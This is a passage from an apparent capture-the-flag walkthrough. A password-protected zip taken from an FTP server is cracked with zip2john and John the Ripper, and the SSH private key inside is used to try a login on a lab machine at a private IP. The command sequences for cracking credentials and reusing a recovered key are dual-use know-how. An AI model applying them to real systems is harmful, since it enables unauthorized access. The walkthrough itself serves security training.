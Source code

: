 ```shell-session
150 Opening BINARY mode data connection for lmao.zip (1474 bytes).
226 Transfer complete.
1474 bytes received in 0.000415 seconds (3.39 Mbytes/s)
ftp> 
```

So while analyzing the `lmao.zip` file as expected, it was password protected and we don't know that password, so let's crack it.

```shell-session
(env) [elliot@archlinux]  lmao git:(main) ✗ unzip lmao.zip           
Archive:  lmao.zip
[lmao.zip] noob password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: noob                    incorrect password
```

##### Password Cracking with John
So here we cracked that password of the zip file using `JohnTheRipper`.

```shell-session
(env) [elliot@archlinux]  lmao git:(main) ✗ zip2john lmao.zip > ziphash
ver 2.0 efh 5455 efh 7875 lmao.zip/noob PKZIP Encr: 2b chk, TS_chk, cmplen=1300, decmplen=1679, crc=70E48BAD
(env) [elliot@archlinux]  lmao git:(main) ✗ john --wordlist=answer_decoded.txt ziphash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ItCantReallyBeThisEasyRightLOL (lmao.zip/noob)
1g 0:00:00:00 DONE (2021-06-27 00:53) 3.030g/s 148945p/s 148945c/s 148945C/s Guatemala..commends
Use the "--show" option to display all of the cracked passwords reliably
Session completed
(env) [elliot@archlinux]  lmao git:(main) ✗ 
```

after unzipping the zip file found a file called `noob` which was actually a private ssh key so, tried to ssh into the box with username `noob`. here's what happed.

```shell-session
(env) [elliot@archlinux]  lmao git:(main) ✗ chmod 600 noob       
(env) [elliot@archlinux]  lmao git:(main) ✗ ssh -i noob noob@192.168.225.188
The authenticity of host '192.168.225.188 (192.168.225.188)' can't be established.
ECDSA key fingerprint is SHA256:I3xuSgcBlIsoldKTkOyVYwx8B4NLGl0fDDTi0H6ExYg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.225.188' (ECDSA) to the list of known hosts.
TRY HARDER LOL!
Connection to 192.168.225.188 closed.
(env) [elliot@archlinux]  lmao git:(main) ✗
```

after ssh-ing into the machine, the session died immediately with the message **`TRY HARDER LOL!`**, that's hilarious.

